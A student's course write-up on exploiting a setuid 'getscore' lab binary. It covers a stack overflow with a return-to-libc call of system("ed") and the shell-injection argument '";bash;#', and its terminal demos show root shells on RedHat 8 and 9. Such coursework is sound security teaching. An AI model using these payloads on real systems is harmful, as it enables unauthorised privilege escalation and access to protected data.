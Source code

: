 # Systems Security Assignment 1 - Stack Smashing

## Exploit Discovery

In `getscore.c`, we pass 2 command line args that get `strcat`ed together with a
color between in `get_score`. However, the command line args can be arbitrarily
long [1]. This means that we can overflow our buffer and overwrite the saved eip
for the `get_score` frame.

Our situation is that the compiled binary has the setuid bit turned on. Meaning
if we can get the program to exhibit behavior that it wasn't programmed for, we
can run code as root, and hopefully get a root shell open.

At first I thought it would be simple enough to use Aleph One's shellcode that
was provided in class. But I thought it would be more fun to not actually
execute any code that's not already in the binary or libc. So using a very basic
ROP attack, we can return to the libc function `system()` with `esp` pointing to
a `char *` which points to a string we want `/bin/sh` to execute. In essence, we
want to run the code:

    system("program_that_gives_shell")

Seems simple enough right? We could construct the stack as so:

    |---------|
    | prog    | --+ <-- matching_pattern
    | ram_    |   |
    | that    |   |
    | _giv    |   |
    | es_s    |   +-- &(saved eip) - &(matching_pattern) bytes long
    | hell    |   |
    | \0AAA   |   |
    | ...     |   |
    | AA:A    | --+
    | &system | <-- saved eip
    | ZZZZ    | <-- fake return address for system(), hopefully never executed
    | &buffer | <-- ROP args to system()
    +---------+

This would work on the RedHat 8 installation. However, the RedHat 9 exhibited
some rudimentary ASLR. Namely, the stack addresses seemed to be randomized such
that the `ebp` was one of 64 values when we enter `main()`. I expected there to
be more entropy with ASLR, but 1) this machine is running a very old kernel and
2) this could be partially due to gcc enjoying to align stack allocation on
16-byte boundaries. Either way, it requires knowing the address of the buffer we
just wrote to so we can tell `system()` where to find it. We could just guess
one of the 64 locations on the stack that it could be and keep running the
program until it works, but 1) this isn't a very elegant solution, and b) this
could raise red flags, since at least some errors are logged to `error.log`
(whose group owner is `cybersec`, better not alarm those guys).

So I searched the binary for little tidbits of text that could possibly be
binaries found somewhere on the system that are programmed to give shell access.
I finally found the string I was searching for:

    0x804833a    _IO_stdin_used

What? What program could this possibly be? Sorry, that wasn't exactly the right
address. Recall that C strings are null-terminated character arrays. This means
that we can trivially obtain a pointer to any suffix of a string by pointing at
the start of the suffix. The null byte remains in the same location, and so the
end of the suffix will be the end of the original string. This means we can get
the string `"ed"` by pointing at the second to last character in the string:

    0x8048346    ed

If you are not familiar, before we had vim we had vi, and before vi we had punch
cards. No, actually, there was this program called `ed` that was what was called
a line editor. It essentially acted like a shell, but instead of the commands
being programs that carry out different tasks, it took commands that edit
different parts of your file. However, it also has one very nice feature: It can
execute arbitrary shell commands itself and print the result. Which means we can
run, say, `bash` from inside of `ed` and have a root shell!

[1] In actuality this depends on variables set in limits.h, but there are
131072 bytes available for args + environ on RHL8

# Stack layout

    +---------+
    | AAAA    | --+ <-- matching_pattern
    | AAAA    |   |
    | AAAA    |   +-- &(saved eip) - &(matching_pattern) bytes long
    | ...     |   |
    | AA:A    | --+
    | &system | <-- saved eip
    | ZZZZ    | <-- fake return address for system(), hopefully never executed
    | &ed     | <-- arg to system(), points to "ed"
    +---------+

## Exploit Generation

    $ python exploit.py 8
    [*] '/home/kevin/classes/systems_security/assignment1/getscore-rhl8'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    $ scp payload* syssec8:
    kevin@192.168.124.80's password:
    payload1                                                               100%  134    48.6KB/s   00:00
    payload2                                                               100%   17     6.7KB/s   00:00


    $ python exploit.py 9
    [*] '/home/kevin/classes/systems_security/assignment1/getscore-rhl9'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    $ scp payload* syssec9:
    payload1                                                               100%  134    66.3KB/s   00:00
    payload2                                                               100%   17    13.4KB/s   00:00

## RedHat Linux 8 Demo

    [kevin@localhost course_scores]$ whoami
    kevin
    [kevin@localhost course_scores]$ ls -al
    total 40
    drwxr-xr-x    2 root     root         4096 Aug 25 07:17 .
    drwxr-xr-x    5 root     root         4096 Aug 25 05:51 ..
    -rw-r--r--    1 root     cybersec       73 Jul 19  2012 error.log
    -rwsr-xr-x    1 root     root        13587 Aug 25  2009 getscore
    -rw-rw-r--    1 kevin    kevin         134 Aug 22 05:48 payload1
    -rw-rw-r--    1 kevin    kevin          17 Aug 22 05:48 payload2
    -rw-------    1 root     root           87 Aug 23  2010 score.txt
    [kevin@localhost course_scores]$ ./getscore "$(cat payload1)" "$(cat payload2)"
    !bash
    [root@localhost course_scores]# whoami
    root
    [root@localhost course_scores]# cat score.txt
    Mary Doe:123-45-6789:A:an excellent student
    Tom Smith:567-89-1234:B:pay more attention

## RedHat Linux 9 Demo

    [guest@localhost getscore]$ whoami
    guest
    [guest@localhost getscore]$ ls -al
    total 40
    drwxrwxr-x    2 guest    guest        4096 Sep 25 23:00 .
    drwx------   11 guest    guest        4096 Sep 25 22:59 ..
    -rwsr-xr-x    1 root     root        13767 Sep 25 01:34 getscore
    -rw-rw-r--    1 guest    guest        1607 Sep 24 00:55 getscore.c
    -rwxrwxr-x    1 guest    guest         134 Sep 25 22:58 payload1
    -rwxrwxr-x    1 guest    guest          17 Sep 25 22:58 payload2
    -rw-------    1 root     root           88 Sep 24 00:55 score.txt
    [guest@localhost getscore]$ cat score.txt
    cat: score.txt: Permission denied
    [guest@localhost getscore]$ ./getscore "$(cat payload1)" "$(cat payload2)"
    !bash
    [root@localhost getscore]# whoami
    root
    [root@localhost getscore]# cat score.txt
    Mary Doe:123-45-6789:A+:an excellent student
    Tom Smith:567-89-1234:B:pay more attention

## Running the exploit generator

    USAGE: ./exploit.py [ 8 | 9 ]

Running `exploit.py` requires python 2.7 and
[pwntools](https://github.com/Gallopsled/pwntools) (a simple `pip install
pwntools` should do). Then select the target environment by passing either `8`
or `9` as the first command line argument. This script will output two files,
`payload1` and `payload2`. Note that there are characters in these files that
will get interpreted as shell characters. So you can't just copy/paste the
contents of the two files as the command line args. Rather, it is best to run
the program as such:

    ./getscore "$(cat payload1)" "$(cat payload2)"

The `"$()"` construct guarantees that the two strings will be passed in raw and
special shell characters won't be interpreted. Additionally, I've included the
correct argument strings for both RedHat 8 and 9 in `rhl8-payload1`,
`rhl8-payload2`, `rhl9-payload2`, and `rhl9-payload2`.

## Additional vulnerability

Additionally, the original call to `system()` in the code is insecure:

    sprintf(command, "echo \"%s: Invalid user name or SSN: %s,%s\"|cat >> error.log",
        ctime(&current_time), argv[1], argv[2]);
    if (system(command)){
        perror("Logging");
    }

Since we are interpolating strings without properly shell-escaping anything, we
can insert shell commands if carefully constructed. For example, we can insert
the string `";bash;#"` as the first argument and the empty string as the second.
So then the call to system will become something like:

    echo "Fri Sep 23 09:13:35 2017
    : Invalid user name or SSN: ";bash;#,\"|cat >> error.log

This translates to a call to `echo` (quoted strings in posix shell can contain
newlines), followed by a call to bash, and the rest is commented out. Here's a
demo:

    [kevin@localhost kevin]$ ls -l getscore score.txt
    -rwsr-xr-x    1 root     root        13587 Aug 25  2009 getscore
    -rw-------    1 root     root           87 Aug 23  2010 score.txt
    [kevin@localhost kevin]$ cat score.txt
    cat: score.txt: Permission denied
    [kevin@localhost kevin]$ ./getscore '";bash;#' ''
    Invalid user name or SSN.
    Fri Sep 23 09:13:35 2017
    : Invalid user name or SSN:
    [root@localhost kevin]# cat score.txt
    Mary Doe:123-45-6789:A+:an excellent student
    Tom Smith:567-89-1234:B:pay more attention
